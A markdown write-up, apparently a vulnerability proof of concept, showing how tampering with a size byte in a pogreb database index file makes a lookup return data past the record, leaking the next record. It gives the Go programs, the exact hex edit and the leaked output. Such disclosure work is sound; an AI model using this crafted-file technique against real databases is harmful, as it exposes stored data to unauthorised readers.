


# Record Leaking

So this document describes the process of how you can leak records from the database. What this involves is this. By using the input database file as an attack surface, you can craft malicous records, with size values that extend past the end of the record. Then when the record gets queried, it will return data past the end of the record, thus leaking information.

## Files

Here are the go files which we use:

```
$	cat insert.go 
package main

import (
	"log"

	"pogreb"
)

func main() {
    db, err := pogreb.Open("fighters.z", nil)

    db.Put([]byte("vegeta"), []byte("final_flash"))
    db.Put([]byte("hit"), []byte("time_skip"))
    db.Put([]byte("goku"), []byte("kamehameha"))

    if err != nil {
        log.Fatal(err)
        return
    }	

    defer db.Close()
}
$	cat select.go 
package main

import (
	"log"

	"pogreb"
)

func main() {
    db, err := pogreb.Open("fighters.z", nil)

    val, er1 := db.Get([]byte("vegeta"))

    if err != nil {
        log.Fatal(err)
        return
    }	

    if er1 != nil {
        log.Fatal(err)
        return
    }

    log.Printf("%s", val)

    defer db.Close()
}
```

## Process

So we start off with creating the database, with three records inserted:

```
$	go run insert.go
```

We can see that we can query it just fine like this:

```
$	go run select.go 
2022/03/20 20:03:49 final_flash
```

Next up we will edit the record sizes used, that are stored in the index file. Now this is also stored in the records file, however from what I've seen those values don't matter for this:

```
$	ghex fighters.z/main.pix
```

We will edit the record, and expand the size value from `0x0B` to `0x2B`. Now the slot (I think it's called slot, it might be wrong) begins at `0x200`. We will be editing the size byte at `0x209` specifically from `0x0B` to `0x2B`

```
Slot Before Edit:
F2 BE 56 40 00 00 06 00 0B 00 00 00 00 02 00 00

Slot After Edit:
F2 BE 56 40 00 00 06 00 2B 00 00 00 00 02 00 00
```

Here is what the actual file looks like before the edit (hashses might be different, since a different DB was used):



After the edit:



Or just copy the backup file I had:

```
$	rm -rf fighters.z/
$	mkdir fighters.z
$	cp -avr overwritten-fighters.z/* fighters.z/
'overwritten-fighters.z/00000-1.psg' -> 'fighters.z/00000-1.psg'
'overwritten-fighters.z/00000-1.psg.pmt' -> 'fighters.z/00000-1.psg.pmt'
'overwritten-fighters.z/db.pmt' -> 'fighters.z/db.pmt'
'overwritten-fighters.z/index.pmt' -> 'fighters.z/index.pmt'
'overwritten-fighters.z/main.pix' -> 'fighters.z/main.pix'
'overwritten-fighters.z/overflow.pix' -> 'fighters.z/overflow.pix'
```

Now when we query it, we see data gets leaked (the next record, with `hit` as the key, and `time_skip` is the value):

```
$	go run select.go 
2022/03/20 20:12:36 final_flash�Դ�	hittime_skip��A

```
